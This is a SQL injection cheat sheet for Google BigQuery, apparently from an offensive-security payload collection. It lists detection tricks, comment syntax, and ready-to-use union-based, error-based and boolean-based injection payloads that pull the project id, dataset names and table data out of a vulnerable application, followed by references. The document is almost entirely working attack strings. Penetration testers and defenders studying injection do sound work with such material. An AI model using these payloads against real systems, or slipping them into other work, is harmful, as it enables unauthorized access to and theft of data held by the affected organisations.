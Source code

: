 # Google BigQuery SQL Injection 

## Summary

* [Detection](#detection)
* [BigQuery Comment](#bigquery-comment)
* [BigQuery Union Based](#bigquery-union-based)
* [BigQuery Error Based](#bigquery-error-based)
* [BigQuery Boolean Based](#bigquery-boolean-based)
* [BigQuery Time Based](#bigquery-time-based)
* [References](#references)

## Detection

* Use a classic single quote to trigger an error: `'`
* Identify BigQuery using backtick notation: ```SELECT .... FROM `` AS ...```

```ps1
# Gathering project id
select @@project_id

# Gathering all dataset names
select schema_name from INFORMATION_SCHEMA.SCHEMATA

# Gathering data from specific project id & dataset
select * from `project_id.dataset_name.table_name`
```

## BigQuery Comment

```ps1
select 1#from here it is not working
select 1/*between those it is not working*/
```

## BigQuery Union Based

```ps1
UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT 'asd'),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
' GROUP BY column_name UNION ALL SELECT column_name,1,1 FROM  (select column_name AS new_name from `project_id.dataset_name.table_name`) AS A GROUP BY column_name#
```

## BigQuery Error Based

```ps1
# Error based - division by zero
' OR if(1/(length((select('a')))-1)=1,true,false) OR '

# Error based - casting: select CAST(@@project_id AS INT64)
dataset_name.column_name` union all select CAST(@@project_id AS INT64) ORDER BY 1 DESC#
```

## BigQuery Boolean Based

```ps1
' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#
```

## BigQuery Time Based

* Time based functions does not exist in the BigQuery syntax.

## References

* [BigQuery SQL Injection Cheat Sheet - Ozgur Alp - Feb 14](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
* [BigQuery Documentation - Query Syntax](https://cloud.google.com/bigquery/docs/reference/standard-sql/query-syntax)
* [BigQuery Documentation - Functions and Operators](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* [Akamai Web Application Firewall Bypass Journey: Exploiting “Google BigQuery” SQL Injection Vulnerability - By Duc Nguyen The, March 31, 2020](https://hackemall.live/index.php/2020/03/31/akamai-web-application-firewall-bypass-journey-exploiting-google-bigquery-sql-injection-vulnerability/)